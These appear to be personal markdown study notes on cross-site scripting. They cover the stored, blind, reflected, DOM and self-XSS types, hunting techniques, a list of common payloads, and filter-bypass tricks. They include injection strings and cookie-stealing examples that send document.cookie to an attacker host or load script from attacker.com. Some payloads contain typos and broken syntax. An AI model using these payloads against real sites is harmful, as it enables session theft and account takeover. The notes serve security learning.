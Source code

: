 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
  * HTML attributes:
      * onlick
      * onerror
      * onload
  * URL schemes like javascript: or data:
      * javascript: alert('Hello')
      * data: text/html; base64, PHNjcmlwd...+"
          * This scheme allows you to embed small files to the URL.
          * The data at the end is encoded in base64 to bypass the XSS filters.
  * Works on <<span>img> tag.
      * h<span>ttps://example.com/upload_profile_pic?url=IMAGE_URL
      * IMAGE URL will be inserted in a <img> tag when the image is rendered.
  * **Take note of which characters are being rendered directly and which ones are escaped.**
###  Common payloads

* <script> alert(1) </script>
* <iframe src = javascript: alert(1) >
* <<span>body onload=alert(1)>
* "><<span>img src=x onerror=prompt(1);>
* <script> alert(1)<!-
    * <!- is an HTML comment, prevents syntax errors.
* <a onmouseover" alert(1)"> test </a>
* <script src=//attacker.com/test.js>

### Other test methods

* Test strings: 
    * <span>> , '
    * <span><
    * <span>"
    * //
    * :
    * =
    * ;
    * !
    * --
* Fuzzing

### Bypassing filters

* Mix different encodings and capitilizations to confuse filters.
* HTML allows for syntax errors in capitilzations
* If special characters are filtered, you cant write strings into a payload directly.
    * Use JavaScript functions like fromCharCopde() that translates numeric codes to ASCII chars.
    * <scrIPT> location=String.fromCharCode(104,116,...)+document.cookie;</srcIPT>
    * Use h<span>ttp://js.do/
* Sometimes applications remove tags once or a couple times.
    * <scrip<script>t> ... </scrip</script>t>
    * The inner script tags will be removed, but the outer ones will be brought together and execute.
    
